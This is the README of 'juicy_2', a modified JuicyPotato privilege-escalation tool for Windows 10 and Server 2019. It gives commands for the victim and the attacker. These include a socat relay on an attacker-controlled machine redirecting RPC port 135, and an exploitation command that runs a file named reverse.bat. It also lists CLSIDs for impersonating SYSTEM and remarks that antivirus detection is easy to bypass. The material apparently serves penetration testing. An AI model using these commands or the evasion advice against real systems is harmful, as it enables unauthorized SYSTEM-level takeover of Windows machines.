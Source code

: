 # juicy_2
JuicyPotato for Win10 > 1803 &amp; Win Server 2019<br>
Please read my blog post first: https://decoder.cloud/2020/05/30/the-impersonation-game/ <br>
<hr>
<b>Disclaimer:</b><br>
This is just a quick & dirty modification of our JuicyPotato in order to test valid CLSID's and to impersonate them (YOU NEED IMPERSONATION PRIVILEGES) for newer Windows 10 and Windows Server 2019 platforms.<br>
(I know, this version is catched by Defender and other AV's, but with some modifications in code it's easy to bypass)
<hr>
Mandatory requisite is to have the possibility to redirect traffic for port 135 on a forwarder machine under you control.<br>
Feel free to improve the code, I was too lazy for this kind of stuff. <br>
<hr>
<i><b>For testing CLSID:</i></b><br>
juicy_2 -z -x [ip] of socat listener  -l [fake oxid resolver port] -n [local RPC server port] -c [CLSID to test]<br>
Example:<br>
  on victim:<br>
  juicy_2 -z -x 192.168.1.1 -l 9995 -n 9998 -c {90F18417-F0F1-484E-9D3C-59DCEEE5DBD8}<br>
  on attacker (192.168.1.1): <br>
  socat -v  TCP-LISTEN:135,fork,reuseaddr TCP:[victim machine]:9995 
<br>
  <i><b>For exploitation:</i></b><br>
  on victim:<br>
  juicy_2 -x 192.168.1.1 -l 9995 -n 9998 -c {90F18417-F0F1-484E-9D3C-59DCEEE5DBD8} -t * -p c:\temp\reverse.bat<br>
  on attacker (192.168.1.1): <br>
  socat -v  TCP-LISTEN:135,fork,reuseaddr TCP:[victim machine]:9995<br>
<hr>  
If you want to impersonate SYSTEM use these CLSID's:<br>
{C41B1461-3F8C-4666-B512-6DF24DE566D1}<br>
{90F18417-F0F1-484E-9D3C-59DCEEE5DBD8}<br>
  
